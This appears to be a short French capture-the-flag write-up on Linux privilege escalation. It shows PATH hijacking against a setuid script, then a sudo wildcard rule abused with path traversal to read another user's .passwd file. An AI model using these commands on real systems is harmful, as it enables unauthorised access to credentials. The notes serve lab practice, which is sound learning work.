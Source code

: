 ### Utilisation du PATH

Avec script c u+s

Copy de cat comme ls dans /tmp ou /var/tmp: $ cp /bin/cat /tmp/ls (n'importe quelle commande dont on a besoin cat ou nano ou autre)

modif du PATH dans lequelle les commande vont être exécutée: $ PATH=/tmp

éxecution du script qui va donc utiliser le cat comme ls

### Les dangers de sudo

sudo permet d'exécuter des commandes en tant qu'un autre utilisateur

sudo -l permet de voir quelle commandes peuvent être lancée et par quel utilisateur

sudo -u $user $commande

dans le cas de cette exercice:

'''
$ sudo -l
User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/notes/*

$ sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/*

$ sudo -u app-script-ch1-cracked cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
'''
